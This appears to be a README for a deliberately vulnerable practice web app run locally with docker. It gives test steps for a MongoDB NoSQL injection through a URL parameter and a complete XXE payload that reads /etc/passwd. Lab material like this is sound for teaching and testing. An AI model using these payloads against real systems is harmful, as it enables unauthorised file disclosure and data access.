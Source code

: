 # README
## 1. Setup
You want to start this site by using docker, following command is enough.

```
$ docker compose up
```

than use a browser to access ``http://localhost:8080``

You'll see broken_app page.

## 2. Usage
This site has some vulnerabiliy. Use various techniques to find the vulnerability.

## 3. How to Test for vulnerability
### NoSQL Injection(MongoDB)

1. first, register user.  
http://localhost:8080/mongo/signup.php

2. and then, you can search registerd user.  
http://localhost:8080/mongo/search.php?role=user&name=user

3. You can be able to manipulate the data passed into the $eq operator.You'll see same result for 2.
http://localhost:8080/mongo/search.php?role=user&name[$eq]=user

### XXE Injection
1. Access following url  
http://localhost:8080/xml/xmlSubmit.html

2. Replace following text and submit it.
``` xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<info>
  <item>
    <title>Item1</title>
    <link>&xxe;</link>
  </item>
  <item>
    <title>Item2</title>
    <link>XXE</link>
  </item>
</info>
```

3. You'll see `/etc/passwd` in the `&xxe;` place.